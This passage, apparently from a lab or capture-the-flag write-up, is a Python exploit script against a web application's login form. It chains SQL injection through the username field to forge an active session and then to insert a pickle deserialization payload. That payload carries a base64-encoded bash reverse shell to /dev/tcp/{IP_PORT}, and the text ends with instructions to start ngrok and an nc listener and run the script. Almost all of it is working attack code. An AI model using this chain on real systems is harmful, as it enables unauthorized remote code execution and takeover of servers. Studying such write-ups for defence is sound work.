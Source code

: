 ```python
def sendRequest(description, data):
    print(f"(+) {description}")

    headers = {
        'Host': URL,
        'Content-Type': 'application/x-www-form-urlencoded',
    }
    data = f'username={data}&password=1'

    return requests.post(f"{URL}/login", headers=headers, data=data, verify=False, allow_redirects=False).text

# Inserting an active session

payload = DBRestore("admin';\nINSERT INTO activesessions (sessionid, username, timestamp) VALUES ('123', 'saad', '2023-06-20/**/06:13:22.123456');--")
sendRequest("Create session", payload)

# Generating a random number for unique file name

randNum = random.randint(10000, 99999)

# Generating the reverse shell and pickle payload

encodedCommand = base64.b64encode(f'bash -i >& /dev/tcp/{IP_PORT} 0>&1'.encode('utf-8')).decode('utf-8')
Command = f'echo "{encodedCommand}" | base64 -d | bash '
picklePayload = doPickle(Command).decode('utf-8')

# Inserting file with payload into the DB

payload = DBRestore("admin';\nINSERT INTO files (filename, data, sessionid) VALUES ('MYFILE', 'PICKLEPAYLOAD', '123');--".replace("MYFILE", str(randNum)).replace("PICKLEPAYLOAD", picklePayload))
sendRequest("Create file", payload)

# Triggering the payload to get RCE

triggerPayload(randNum)
```

Start the ngrok and nc listener and execute the script.

![Executing the script](36.png "Executing the script")
